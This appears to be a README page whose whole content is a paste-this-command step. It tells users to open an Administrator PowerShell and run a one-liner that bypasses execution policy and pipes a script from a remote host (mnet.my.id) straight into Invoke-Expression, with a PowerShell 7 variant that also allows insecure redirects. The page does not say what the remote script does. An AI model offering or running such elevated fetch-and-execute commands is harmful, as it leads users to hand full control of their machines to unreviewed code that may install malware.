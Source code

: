 ## HOW TO RUN
-   Right-click on the Windows start menu and select PowerShell (Admin).
-   Copy and paste the code below and press enter
```
Start-Process powershell -ArgumentList "-NoProfile -ExecutionPolicy Bypass -Command `"iex (iwr 'https://mnet.my.id/update/github/c' -UseBasicParsing)`"" -Verb RunAs
```
-  You will see the download.
-  That's all.

## Tutorial Videos
![Tutorial](https://raw.githubusercontent.com/mm1rza/script/main/tutorial.gif)

## Alternative PowerShell 7
-   Download [PowerShellx64.msi](https://github.com/PowerShell/PowerShell/releases/download/v7.4.5/PowerShell-7.4.5-win-x64.msi) or [PowerShellx86.msi](https://github.com/PowerShell/PowerShell/releases/download/v7.4.5/PowerShell-7.4.5-win-x86.msi)
-   Run As Admin PowerShell 7
```
iex (iwr "https://mnet.my.id/update/github/c" -UseBasicParsing -AllowInsecureRedirect)
```
-  You will see the download.
-  That's all.

</br>
